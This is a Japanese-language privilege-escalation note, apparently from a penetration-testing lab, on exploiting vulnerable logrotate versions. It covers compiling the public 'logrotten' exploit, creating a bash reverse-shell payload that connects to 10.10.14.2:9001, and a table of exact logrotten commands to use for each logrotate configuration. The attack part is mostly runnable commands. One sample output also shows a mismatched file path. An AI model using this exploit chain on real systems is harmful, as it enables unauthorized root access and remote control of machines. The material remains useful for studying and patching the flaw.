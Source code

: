 
### 攻撃
logrotateを悪用するため条件
- ログファイルに対する書き込み権限が必要
```sh
ls -l /var/log/dpkg.log
-rw-rw-r-- 1 user group 1024 Oct 26 10:00 /tmp/tmp.log
```
- logrotateは、特権ユーザーまたはrootとして実行する必要がある
```sh
cat /etc/crontab
0 */12 * * * root /usr/sbin/logrotate /etc/logrotate.conf
```
- 脆弱性のあるバージョン
	- 3.8.6
	- 3.11.0
	- 3.15.0
	- 3.18.0
```sh
logrotate --version
```

要件が満たされている場合、これに使用できる既製の悪用コードがあります。この悪用コードは**logrotten**と呼ばれている
ターゲットシステムのカーネルと同様のカーネル上でダウンロードしてコンパイルし、ターゲットシステムに転送することで攻撃できる

logrotten をダウンロードとコンパイル
```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

次に、実行するペイロードが必要
- ここでは、ターゲットシステムを攻撃するために使用するVMのIPとポートを使用して、単純なbashベースのリバースシェルを実行する
```sh
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

エクスプロイトを実行する前に、logrotate.confでlogrotateがどのオプションを使用しているかを判断する必要がある
logrotate.conf で "create" または "compress" オプションが有効になっているか確認する
```shell-session
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
> create
```

この例では、オプションはcreate
- したがって、この機能に合わせて調整されたエクスプロイトを使用する必要がある
1. **logrotten のヘルプメッセージを確認** 
	- ターミナルで./logrotten -hまたは./logrotten --helpを実行して、logrottenがどのようなオプションをサポートしているかを確認する
2. **/etc/logrotate.conf および /etc/logrotate.d/* の設定を確認**
	- ターゲットのログファイルに関する設定を調べ、create、nocreate、compress、nocompressのいずれのオプションが有効になっているかを確認する
3. **logrotten を実行**
	- 設定ファイルに基づいて、適切なオプションをlogrottenコマンドに含める

|                                                      |                                             |
| ---------------------------------------------------- | ------------------------------------------- |
| 設定ファイル (/etc/logrotate.conf, /etc/logrotate.d/*) の設定 | Logrotten 実行コマンドの例                          |
| create オプションがあり、圧縮 **も** 有効                          | ./logrotten -c -z -p ./payload /tmp/tmp.log |
| create オプションがあり、圧縮 **は** 無効                          | ./logrotten -c -p ./payload /tmp/tmp.log    |
| nocreate オプションがあり、圧縮 **も** 有効                        | ./logrotten -n -z -p ./payload /tmp/tmp.log |
| nocreate オプションがあり、圧縮 **は** 無効                        | ./logrotten -n -p ./payload /tmp/tmp.log    |
